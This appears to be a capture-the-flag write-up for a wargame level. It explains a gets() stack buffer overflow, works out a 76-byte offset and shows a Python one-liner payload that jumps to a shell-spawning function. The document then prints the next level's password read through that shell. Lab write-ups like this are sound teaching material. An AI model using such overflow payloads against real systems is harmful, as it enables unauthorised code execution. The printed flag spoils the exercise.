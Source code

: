# Level 1

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector -static source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>

void run(void)
{
    fwrite("Good... Wait what?\n", 1, 19, stdout);
    system("/bin/sh");
}

int main(void)
{
    char buffer[64];
    gets(buffer);
}
```

Let's focus on the `main` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read.

In this case, the program's stack is allocated 80 bytes:
```
# Allocating 80 bytes on the stack
0x08048486 <+6>:     sub    $0x50,%esp

# Calculate the address of esp + 16, since we allocated 80 bytes for the stack our buffer will therefore be 64 bytes.
0x08048489 <+9>:     lea    0x10(%esp),%eax
```

The buffer is 64 bytes long. Therefore, passing more than 64 bytes to the program will result in a buffer overflow. Our goal is to overflow the stack until we reach the return address of the main function, which is 12 bytes after the buffer.
> If the stack layout isn't as straightforward as the one in this exercise, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However when possible try to understand the stack layout with the `sub` instruction.

Anything written beyond those 76 bytes (64 bytes of buffer + 12 bytes to reach the return address) will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

Now, we need to find the address of the `run` function, which spawns a shell, to jump to it:
```
(gdb) info function run
All functions matching regular expression "run":

Non-debugging symbols:
0x08048444  run
```

Let's craft our payload:
```bash
64 bytes + 12 bytes = 76 bytes
\x08\x04\x84\x44 = 0x08048444 address of run function

level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x84\x44"[::-1])' && cat) | ./level1
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We are now level2! Let's move on to the next level.
